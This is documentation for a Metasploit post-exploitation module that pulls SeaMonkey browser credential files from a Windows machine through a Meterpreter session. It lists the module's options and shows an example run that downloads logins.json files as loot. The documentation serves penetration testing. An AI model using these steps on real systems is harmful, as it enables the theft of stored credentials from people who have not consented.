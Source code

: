 ## Module Description

This post-exploitation module gathers artifacts found on seamonkey related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/seamonkey
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf post(windows/gather/credentials/seamonkey) > run 



[*] Seamonkey's parent folder found
[*] Seamonkey's Logins.json file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\Firefox\Profiles\r68nu6yz.default-release\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._241786.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112655_default_192.168.56.106_EXTRACTIONSlogin_914205.bin
[*] Downloading C:\Users\IEUser\AppData\Roaming\Mozilla\SeaMonkey\Profiles\ovqvptq0.default\logins.json
[*] Seamonkey Logins.json downloaded
[+] File saved to:  /root/.msf4/loot/20210521112655_default_192.168.56.106_seamonkeylogins._569684.bin

[+] ['hostname']:  https://login.live.com

[+] ['usernameField']:  loginfmt

[+] ['passwordField']:  passwd

[+] ['encryptedUsername']:  **************************************************************==

[+] ['encryptedPassword']:  **************************************************************

[+] File with data saved:  /root/.msf4/loot/20210521112656_default_192.168.56.106_EXTRACTIONSlogin_379436.bin

[*] PackRat credential sweep Completed
[*] Post module execution completed
```
